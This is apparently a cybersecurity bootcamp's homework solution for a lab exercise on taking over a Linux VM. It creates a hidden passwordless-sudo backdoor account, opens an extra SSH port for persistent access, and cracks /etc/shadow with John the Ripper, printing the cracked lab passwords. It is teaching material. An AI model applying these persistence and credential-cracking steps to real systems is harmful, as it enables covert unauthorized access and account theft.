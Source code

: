 ## Week 6 Homework Solution: Advanced Bash - Owning the System

### Lab Setup

1. Log into the VM as `root` on the attacker machine:

    - Within the attacker machine, log in with the credentials:

        - Username: `sysadmin`
        - Password: `cybersecurity`

2. Using the attacker machine, remote into the target machine:

    - `ssh sysadmin@192.168.6.105 -p 22` and enter `passw0rd` when prompted.

3. After logging in as `sysadmin` on the target machine, run `sudo -s` to escalate your user to `root`. Enter `passw0rd` when prompted.

You will not need the above steps as part of your submission file.

---
### Step 1: Shadow People
1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo useradd sysd`

2. Give your secret user a password:
    - `sudo passwd sysd`

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 400 sysd`
 
4. Give your secret user the same GID:
    - `sudo groupmod -g 400 sysd`

5. Give your secret user full `sudo` access without the need for a password:
    - `sudo visudo`

    - Add the line `sysd ALL=(ALL:ALL) NOPASSWD:ALL` under the `root` entry:


    ```bash
    # User privilege specification
    root    ALL=(ALL:ALL) ALL
    sysd    ALL=(ALL:ALL) NOPASSWD:ALL
    # Members of the admin group may gain root privileges
    %admin ALL=(ALL) ALL
    ```

- Swap to your `sysd` user and enter the password you set.

    - `su sysd`

6. Test that `sudo` access works without your password:

    - `sudo -l` will show the following output:

    ```bash
    Matching Defaults entries for sysd on scavenger-hunt:
        env_reset, exempt_group=sudo, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User sysd may run the following commands on scavenger-hunt:
        (ALL : ALL) NOPASSWD: ALL
    ```

### Step 2: Smooth Sailing

1. Edit the `sshd_config` file:

    - Run `sudo nano /etc/ssh/sshd_config` and add the following line in the configuration file:

    ```bash
    # Add an extra port line:
    Port 22
    Port 2222
    ``` 

### Step 3: Testing Your Configuration Update
1. Restart the SSH service:
    - `service ssh restart` or
    - `systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

### Step 4: Crack All the Passwords

1. SSH back to the system using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo su`

    - `john /etc/shadow`

 Wait approximately 5-10 minutes for John to crack all the passwords.

 - This partly depends on what password you set for your `sysd` user.

    ```bash
    # john /etc/shadow
    Created directory: /root/.john
    Loaded 7 password hashes with 7 different salts (crypt, generic crypt(3) [?/64])
    Press 'q' or Ctrl-C to abort, almost any other key for status
    computer         (stallman)
    freedom          (babbage)
    trustno1         (mitnik)
    dragon           (lovelace)
    lakers           (turing)
    passw0rd         (sysadmin)
    Goodluck!        (student)
    ```
--- 
© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.
